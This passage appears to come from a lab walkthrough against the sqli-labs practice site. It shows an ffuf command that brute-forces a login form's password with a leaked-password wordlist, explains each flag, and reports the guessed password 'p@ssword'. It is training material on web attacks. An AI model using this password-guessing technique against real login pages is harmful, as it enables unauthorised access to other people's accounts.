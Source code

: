 🛠️ Commands used

```bash
ffuf -u http://10.201.92.170/sqli-labs/Less-11/ \
-c \
-w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt \
-X POST \
-d 'uname=Dummy&passwd=FUZZ&submit=Submit' \
-fs 1435 \
-H 'Content-Type: application/x-www-form-urlencoded'
```

📌 Command explanation
- `-u` URL to be requested
- `-w` Wordlist to be used to guess passwords (`FUZZ` will be replaced with each line in the file.)
- `-X POST` specifies HTTP POST.
- `-d` sends POST data, such as `uname=Dummy&passwd=FUZZ` (guessing `passwd`).
- `-H` specifies the header to use `application/x-www-form-urlencoded` (a common web form).
- `-fs 1435` filters results with a size of 1435 bytes (indicates "invalid response" and hides them).
- `-c` displays colored text for easy reading.

![ffuf](images/13.png)

✅ Output

```bash
p@ssword [Status: 200, Size: 1526, Words: 100, Lines: 50, Duration: 252ms]
```

✅ From the output:
- Response The only one that wasn't filtered (size not 1435) was `p@ssword`
- meaning the website responded differently. This is often the response to a successful login.
